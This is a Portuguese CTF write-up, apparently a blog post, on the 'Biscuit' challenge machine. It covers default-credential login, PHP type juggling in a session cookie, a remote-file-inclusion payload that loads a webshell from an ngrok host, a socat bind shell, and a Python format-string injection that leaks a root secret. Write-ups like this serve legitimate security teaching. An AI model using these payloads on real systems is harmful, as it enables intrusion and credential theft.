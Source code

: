 ```yaml
---
layout: article
title:  "UHCCTF (Classificatória) - Biscuit (Official Write-Up) pt-br"
tags: pt-br ctf write-up
---
```

 
Ola sou o Vinicius (big0us), esse é um write-up de uma maquina que foi o challenge de uma das etapas classificatórias do UHC.

Escreverei meio rápido então peço desculpas se algo estiver um pouco ruim.

Boa leitura :)

g00d_h4ck1ng

# Recon

![/assets/biscuit/Untitled.png](/assets/biscuit/Untitled.png)

A primeira página é uma página de login, dando uma olhada no HTML da página aparentemente não existe nada escondido, vou rodar um fuzzing e depois poderemos testar algumas credenciais.

![/assets/biscuit/Untitled%201.png](/assets/biscuit/Untitled%201.png)

Aparentemente nosso fuzzing entregou apenas um /class, onde existe um directory listing apontando um arquivo ".php".

![/assets/biscuit/Untitled%202.png](/assets/biscuit/Untitled%202.png)

Ok, vamos testar algumas credenciais padrões no formulário de login:

```
admin:admin
guest:guest
administrator:admin
root:root
```

Testando "guest:guest" conseguimos entrar:

![/assets/biscuit/Untitled%203.png](/assets/biscuit/Untitled%203.png)

Dando uma olhada aparentemente temos só uma página de welcome.

Vamos ver nossos cookies.

![/assets/biscuit/Untitled%204.png](/assets/biscuit/Untitled%204.png)

Vamos entender melhor esse cookie chamado session pois ele parece ser interessante:

![/assets/biscuit/Untitled%205.png](/assets/biscuit/Untitled%205.png)

Utilizando o cyberchef para decodar o cookie podemos perceber que se trata de um JSON com três valores: hmac (provavelmente algo que valide os valores), username, e uma hora para o cookie expirar.

Vou tentar alterar o valor de username para "admin" encodar em base64, url e então enviar para a aplicação.

![/assets/biscuit/Untitled%206.png](/assets/biscuit/Untitled%206.png)

Aparentemente retornou um erro dizendo que estamos tentando fazer um "temperamento de cookie", e retornou uma flag! Nossa primeira flag.

Depois de alguns testes enviando cookies com outros valores aleatórios, acabei percebendo que a aplicação valida o Cookie pelo valor do hmac, e não pelo conteudo inteiro do json.

Uma vulnerabilidade muito conhecida sobre validações do PHP é o type jugling, que consiste em bypass de autenticações fazendo qualquer if($ == $) retornar "true".

[PHP Tricks (SPA)](https://book.hacktricks.xyz/pentesting/pentesting-web/php-tricks-esp)

[PHP Type Juggling Vulnerabilities](https://medium.com/swlh/php-type-juggling-vulnerabilities-3e28c4ed5c09)

![/assets/biscuit/Untitled%207.png](/assets/biscuit/Untitled%207.png)

Basicamente quando um programador utiliza "==" em uma comparação o php primeiro torna os dois valores do mesmo tipo, ignorando o tipo (int, str...) das variáveis.

E nessa operação podemos utilizar algumas técnicas para a comparação retornar "true".

# Exploitation

Depois de um tempo tentando, testei trocar o valor do "hmac" para "true" e aparentemente funcionou!

![/assets/biscuit/Untitled%208.png](/assets/biscuit/Untitled%208.png)

```json
{"hmac":true,"username":"admin","expiration":1625435484}
```

![/assets/biscuit/Untitled%209.png](/assets/biscuit/Untitled%209.png)

Ok, fiquei triste que não existe nenhuma flag por aqui 😢.

Vou tentar alterar o nome do usuário para entender o que está acontecendo.

Alterando para "test" o php nos retorna um erro, aparentemente ele está rodando um "require_once" no valor que colocamos + adicionando .php no final. require_once normalmente é usado para incluir páginas e arquivos php em sites, e quando o usuário tem controle sobre o valor que o require_once vai usar a aplicação está vulnerável a LFI ou RFI (Local/Remote File Inclusion).

![/assets/biscuit/Untitled%2010.png](/assets/biscuit/Untitled%2010.png)

Como a aplicação ja coloca o .php no final vou fazer o seguinte.

Subir um arquivo com uma webshell num servidor utilizando o ngrok, mandar a a aplicação incluir meu arquivo e conseguir um RCE.

![/assets/biscuit/Untitled%2011.png](/assets/biscuit/Untitled%2011.png)

E vou mandar a payload:

```json
{"hmac":true,"username":"https://3b4f8afabab2.ngrok.io/shell","expiration":1625435484}
```

(A aplicação ja vai colocar o .php)

Temos RCE!!

![/assets/biscuit/Untitled%2012.png](/assets/biscuit/Untitled%2012.png)

Agora vou tentar pegar uma reverse shell.

Após algumas tentativas percebi que existe um firewall na aplicação que bloqueia qualquer comunicação em portas que não forem 80 ou 443, como eu não tenho uma VPS, vou fazer de uma forma diferente, ao invés de uma reverse shell (onde a vitima se conecta no atante) vou pegar uma bind shell (abrindo uma porta na maquina e me conectando nela).

Para isso vou usar o "socat".

[socat | GTFOBins](https://gtfobins.github.io/gtfobins/socat/#bind-shell)

![/assets/biscuit/Untitled%2013.png](/assets/biscuit/Untitled%2013.png)

Primeiro peguei o binario do socat no github deles (socat binary) e passei pra maquina utilizando o web-server que eu criei para conseguir RCE, e dando um curl.

Então rodei os comandos que estão na imagem e consegui uma bind shell! (utilizei a porta 6969)

![/assets/biscuit/Untitled%2014.png](/assets/biscuit/Untitled%2014.png)

E navegando um pouco no / encontramos a próxima flag:

![/assets/biscuit/Untitled%2015.png](/assets/biscuit/Untitled%2015.png)

# Pós Exploitation

Fazendo o básico checklist de priv esc podemos perceber que estamos com o usuário do apache e podemos rodar um script como root na máquina:

![/assets/biscuit/Untitled%2016.png](/assets/biscuit/Untitled%2016.png)

Aparentemente não podemos ler o script e nem altera-lo.

![/assets/biscuit/Untitled%2017.png](/assets/biscuit/Untitled%2017.png)

O que nos resta é roda-lo:

![/assets/biscuit/Untitled%2018.png](/assets/biscuit/Untitled%2018.png)

Aparentemente ele printa um IP, dando uma olhada no /var/www/html o path da aplicação web podemos perceber que existe um arquivo com o mesmo ip que ele printou, então aparentemente ele está printando o IP que está no arquivo.

![/assets/biscuit/Untitled%2019.png](/assets/biscuit/Untitled%2019.png)

Abri o arquivo com o nano (antes rodar 'export TERM=xterm' !!) e começei a edita-lo para tentar retornar algum erro no python que me mostre alguma coisa do programa.

![/assets/biscuit/Untitled%2020.png](/assets/biscuit/Untitled%2020.png)

![/assets/biscuit/Untitled%2021.png](/assets/biscuit/Untitled%2021.png)

Interessante, aparentemente existe um format string diferente (pouco usado) rodando.

Pesquisando sobre esse tipo de format string + vulnerabilites acabei tropeçando nesse artigo.

[Are there any Security Concerns to using Python F Strings with User Input](https://security.stackexchange.com/questions/238338/are-there-any-security-concerns-to-using-python-f-strings-with-user-input)

Basicamente nele explica-se tudo o que precisamos fazer, por isso não vou explicar direitinho, mas basicamente a forma que esse format string funciona nos permite injetar mais strings para serem formatadas, e se isso é printado podemos printar todas as váriaveis globais que o arquivo usa, normlamente dando alguma key ou senha para nós. (Para quem não entende muito bem inglês é só traduzir que fica tranquilo de entender).

Ok então vamos a payload.

```json
{"ips":["{ip.list_blocked.__globals__}"]}
```

![/assets/biscuit/Untitled%2022.png](/assets/biscuit/Untitled%2022.png)

Aparentemente funcionou e conseguimos o valor de uma váriavel chamada root_secret, provavelmente é a senha do root.

![/assets/biscuit/Untitled%2023.png](/assets/biscuit/Untitled%2023.png)

Worked!!

Obrigado a você que leu até aqui, parabéns cadu pela máquina, e desclupe por algum erro no write-up, fiz correndo >_>